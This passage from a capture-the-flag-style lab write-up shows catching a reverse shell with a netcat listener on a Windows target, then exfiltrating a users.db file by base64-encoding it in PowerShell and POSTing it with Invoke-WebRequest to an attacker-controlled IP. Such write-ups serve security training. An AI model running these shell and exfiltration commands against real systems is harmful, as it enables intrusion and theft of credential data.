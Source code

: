 -   {{< figure src="/ox-hugo/2025-04-18-094405_.png" >}}

Start out listener:

```shell
nc -nvlp 8888
```

Modify the payload, by again capturing a POST request and sending it to Repeater.

-   {{< figure src="/ox-hugo/2025-04-18-094454_.png" >}}

Shell caught:

-   {{< figure src="/ox-hugo/2025-04-18-094527_.png" >}}

Lets grab our User.txt

-   {{< figure src="/ox-hugo/2025-04-18-094739_.png" >}}


### Discover `user.db` file: {#discover-user-dot-db-file}

After some enumeration I find a database called `users.db` in the directory "C:\Users\blake\Documents\app\instance\\"

As we are working with a limited shell at the moment&#x2026;.and I haven't gotten around to upgrading it just yet we will use a simple base64 transfer method to transfer the db to ourselves.

1.  First we convert the `users.db` object to base64 and store it in the variable `$b64`
    ```powershell
    $b64 = [System.Convert]::ToBase64String((Get-Content -path "C:\Users\blake\Documents\app\instance\users.db" -Encoding byte))
    ```

    -   {{< figure src="/ox-hugo/2025-04-18-155224_.png" >}}

2.  Start a listener on our host:
    ```shell
    nc -nvlp 8888
    ```

3.  Send the base64 encoded string to our listener:
    ```powershell
    Invoke-WebRequest -Uri http://10.10.14.20:8888/ -Method POST -Body $b64
    ```

    -   {{< figure src="/ox-hugo/2025-04-18-153915_.png" >}}
    -   Caught base64 on our listener
        -   {{< figure src="/ox-hugo/2025-04-18-153723_.png" >}}

4.  Now we decode the bas64 back into `users.db`



```shell
echo "base64string" | base64 -d -w 0 > users.db
```


### Finding Users Passwords in `users.db`: {#finding-users-passwords-in-users-dot-db}
